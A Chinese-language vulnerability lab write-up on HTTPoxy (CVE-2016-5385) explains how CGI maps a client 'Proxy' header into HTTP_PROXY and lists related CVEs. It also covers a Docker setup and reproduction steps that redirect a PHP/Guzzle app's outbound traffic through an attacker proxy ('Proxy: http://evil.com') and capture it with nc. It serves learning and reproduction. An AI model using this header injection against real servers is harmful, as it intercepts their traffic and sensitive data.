

# CGI HTTPoxy漏洞（CVE-2016-5385）

根据RFC 3875规定，CGI（fastcgi）要将用户传入的所有HTTP头都加上`HTTP_`前缀放入环境变量中，而恰好大多数类库约定俗成会提取环境变量中的`HTTP_PROXY`值作为HTTP代理地址。于是，恶意用户通过提交`Proxy: http://evil.com`这样的HTTP头，将使用缺陷类库的网站的代理设置为`http://evil.com`，进而窃取数据包中可能存在的敏感信息。

PHP5.6.24版本修复了该漏洞，不会再将`Proxy`放入环境变量中。本环境使用PHP 5.6.23为例。

当然，该漏洞不止影响PHP，所有以CGI或Fastcgi运行的程序理论上都受到影响。CVE-2016-5385是PHP的CVE，HTTPoxy所有的CVE编号如下：

- CVE-2016-5385: PHP
- CVE-2016-5386: Go
- CVE-2016-5387: Apache HTTP Server
- CVE-2016-5388: Apache Tomcat
- CVE-2016-6286: spiffy-cgi-handlers for CHICKEN
- CVE-2016-6287: CHICKEN’s http-client
- CVE-2016-1000104: mod_fcgi
- CVE-2016-1000105: Nginx cgi script
- CVE-2016-1000107: Erlang inets
- CVE-2016-1000108: YAWS
- CVE-2016-1000109: HHVM FastCGI
- CVE-2016-1000110: Python CGIHandler
- CVE-2016-1000111: Python Twisted
- CVE-2016-1000212: lighttpd

参考链接：

- https://httpoxy.org/
- http://www.laruence.com/2016/07/19/3101.html

## 环境搭建

启动一个基于PHP 5.6.23 + GuzzleHttp 6.2.0的应用：

```
docker-compose up -d
```

Web页面原始代码：[index.php](www/index.php)

## 漏洞复现

正常请求`http://your-ip:8080/index.php`，可见其Origin为当前请求的服务器，二者IP相等：


在其他地方启动一个可以正常使用的http代理，如`http://*.*.122.65:8888/`。

附带`Proxy: http://*.*.122.65:8888/`头，再次访问`http://your-ip:8080/index.php`：



如上图，可见此时的Origin已经变成`*.*.122.65`，也就是说真正进行HTTP访问的服务器是`*.*.122.65`，也就是说`*.*.122.65`已经将正常的HTTP请求代理了。

在`*.*.122.65`上使用NC，就可以捕获当前请求的数据包，其中可能包含敏感数据：


